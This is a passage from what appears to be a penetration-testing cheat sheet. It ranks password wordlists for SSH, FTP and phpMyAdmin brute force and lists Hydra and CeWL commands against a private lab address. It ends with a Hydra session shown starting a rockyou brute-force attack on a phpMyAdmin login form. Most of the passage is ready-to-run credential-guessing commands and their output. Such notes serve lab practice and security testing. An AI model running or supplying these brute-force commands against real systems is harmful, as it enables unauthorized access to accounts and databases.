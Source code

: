 4. **Last Resort** (Targeted):
   - Custom wordlist generated with CeWL from the target website
   - Custom wordlist generated with CUPP based on organization information

### For SSH Brute Force

1. **First Try** (Quick Check):
   - `/usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt`
   - `/usr/share/seclists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt`
   - `/usr/share/wordlists/fasttrack.txt`

2. **Second Try** (Common Passwords):
   - `/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt`
   - `/usr/share/seclists/Passwords/Common-Credentials/best1050.txt`

3. **Third Try** (More Comprehensive):
   - `/usr/share/wordlists/rockyou.txt`
   - `/usr/share/seclists/Passwords/probable-v2-top12000.txt`

### For FTP Brute Force

1. **First Try** (Quick Check):
   - `/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`
   - `/usr/share/wordlists/fasttrack.txt`

2. **Second Try** (Common Passwords):
   - `/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt`

3. **Third Try** (More Comprehensive):
   - `/usr/share/wordlists/rockyou.txt`

## 8. Command Examples for Different Wordlists

### Hydra with Different Wordlists for phpMyAdmin

```bash
# Default MySQL credentials
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt 192.168.74.162 http-post-form "/phpMyAdmin/index.php:username=^USER^&password=^PASS^:F=error"

# Top 1000 common passwords
hydra -l root -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt 192.168.74.162 http-post-form "/phpMyAdmin/index.php:username=^USER^&password=^PASS^:F=error"

# Fasttrack wordlist (small but effective)
hydra -l root -P /usr/share/wordlists/fasttrack.txt 192.168.74.162 http-post-form "/phpMyAdmin/index.php:username=^USER^&password=^PASS^:F=error"

# Website-specific wordlist
cewl -d 2 -m 5 -w custom_wordlist.txt http://192.168.74.162
hydra -l root -P custom_wordlist.txt 192.168.74.162 http-post-form "/phpMyAdmin/index.php:username=^USER^&password=^PASS^:F=error"

```
```bash
└─$ hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.74.162 http-post-form "/phpMyAdmin/index.php:username=^USER^&password=^PASS^:F=error"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task

[DATA] attacking http-post-form://192.168.74.162:80/phpMyAdmin/index.php:username=^USER^&password=^PASS^:F=error
```
